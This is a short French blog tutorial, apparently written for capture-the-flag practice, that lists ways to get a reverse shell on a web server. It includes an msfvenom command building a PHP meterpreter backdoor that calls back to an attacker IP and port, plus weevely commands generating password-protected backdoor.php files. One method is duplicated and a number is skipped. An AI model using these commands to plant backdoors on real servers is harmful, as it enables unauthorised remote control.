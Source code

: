 ```yaml
---
layout: post
section-type: post
title: Reverse shell
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Le but de cet article est de vous montrer les différentes façons de vous munir d'un "reverse shell".

Pour des raisons de modularité, un article traitant le reverse shell de façon complète sera rédigé et il fera réference à celui-ci ainsi qu'à plein d'autres disponibles sur mon site. 

---------------------------------------------

#### Pré requis 
1-Avoir les bases d'un langage de programmation côté serveur <br/>
2-Avoir installer et configurer une machine orientée "sécurité" (Kali linux, Parrot OS,...) <br/>
3-Avoir fait les configurations nécessaires dans votre routeur: cas d'une connexion distante

---------------------------------------------

#### Méthode 1: shell par défaut sur kali linux
  <pre><code data-trim class="yaml">
      #répertoire par défaut des "reverse shell" sur Kali linux
      cd /usr/share/webshell/php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 2: créer un reverse shell avec meterpreter
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "backdoor.php" au profit de la machine d'IP 10.23.201.17 écoutant sur le port 1234
      msfvenom -p php/meterpreter/reverse_tcp LHOST=10.23.201.17 LPORT=1234 > /Desktop/backdoor.php
  </code></pre> <br/>

---------------------------------------------

#### Méthode 3: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLog_hhhhhhhh"
      weevely generate noLog_hhhhhhhh /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 4: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLogMe"
      weevely generate noLogMe /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 6: utiliser Internet
  visiter le site web : [http://pentestmonkey.net/](http://pentestmonkey.net/), par exemple

NB: Il ne faudra pas oublier de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 7: codez vous-même
  Nous reviendrons plus tard sur la logique de codage de votre propre reverse shell et le pratiquerons en C, python et PHP. Vous devinez donc que vous aurez besoin de savoir programmer en C ou en python ou en PHP en plus d'avoir des notions de base en réseau informatique

---------------------------------------------
